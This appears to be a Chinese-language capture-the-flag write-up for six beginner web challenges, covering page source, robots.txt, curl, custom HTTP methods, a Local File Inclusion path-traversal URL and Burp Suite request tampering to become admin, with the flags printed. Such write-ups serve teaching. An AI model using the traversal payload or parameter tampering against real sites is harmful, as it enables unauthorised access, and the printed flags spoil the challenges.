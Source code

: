 <br />

# CTF:Web101

<br /><br />


============================================

Web-1:source code<br /><br />
--------------------------------------------

右鍵>檢查原始碼或者F12
```

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="images/favicon.ico">

    <title>BreakALL CTF</title>

    <link href="css/bootstrap.min.css" rel="stylesheet">

    <link href="css/signin.css" rel="stylesheet">
  </head>

  <body>

    <div class="container">

      <form class="form-signin"  method="post" action="index.html">
        <h3 class="form-signin-heading">BreakALL CTF</h3>
        <input type="text" id="inputUsername" class="form-control" name="name" placeholder="Username" >

        <input type="password" id="inputPassword" class="form-control" name="pw" placeholder="Password">
		
        <button class="btn btn-lg btn-primary btn-block" type="submit">登入</button>
	
      </form>

    </div> 

	<!-- BreakALLCTF{3xjVYR8dMetWQbwzYsLJ} -->

    <script src="js/ie10-viewport-bug-workaround.js"></script>
  </body>
</html>
```

<br />

============================================

web-2:Robots.txt<br /><br />
--------------------------------------------
網址後面加/robots.txt
```
120.114.62.89:2001/robots.txt
```

<br />
result:

```
User-agent: *
Disallow: /images
Disallow: /secret
```

所以就是120.114.62.89:2001/secret啦!<br />
找到flag.txt!<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-16-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />





是一串16進位<br />

```
516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939
```

轉成字串後是一串base64<br />

```
QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99
```

base64解碼<br />
BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}<br />
答案出來了!<br />



============================================

web-3:Curl-1<br /><br />
--------------------------------------------

在GO按鈕的地方按右鍵>Copy Link Location

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(188).png)

<br />

使用curl

```
curl http://120.114.62.89:2014/index.php
```





<br />



============================================

web-4:HTTP method<br /><br />
--------------------------------------------
[https://zh.wikipedia.org/wiki/%E8%B6%85%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93%E5%8D%8F%E8%AE%AE#%E8%AF%B7%E6%B1%82%E6%96%B9%E6%B3%95](https://zh.wikipedia.org/wiki/%E8%B6%85%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93%E5%8D%8F%E8%AE%AE#%E8%AF%B7%E6%B1%82%E6%96%B9%E6%B3%95)

利用curl:
```
curl -X GETFLAG -v http://120.114.62.89:3001/index.php
```

```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 25 May 2018 01:29:23 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
BreakALLCTF{fzfaD1jdXyQAMWvRShGC}
```






============================================

web-5:Local File Inclusion<br /><br />
--------------------------------------------

LFI(Local File Inclusion):
[https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

```
http://120.114.62.89:2003/index.php?page=../../../../flag
```




<BR />


============================================

Web-6:Burp Suite<br /><br />
--------------------------------------------

1.首先設定瀏覽器proxy<br />
Preferences>Advanced>Network>Settings

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-14%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
2.確認Intercept is off
<br />
3.隨意輸入帳號密碼

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-48%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-57%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />

4.開啟Intercept

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(189).png)


<br />



5.Burp Suite
<br />
在POST發現東西了!
<br />
右鍵>Sent to Repeater

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(186).png)

<br />
6.修改user變成admin
<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-00-59%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
7.flag!

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br /><br />





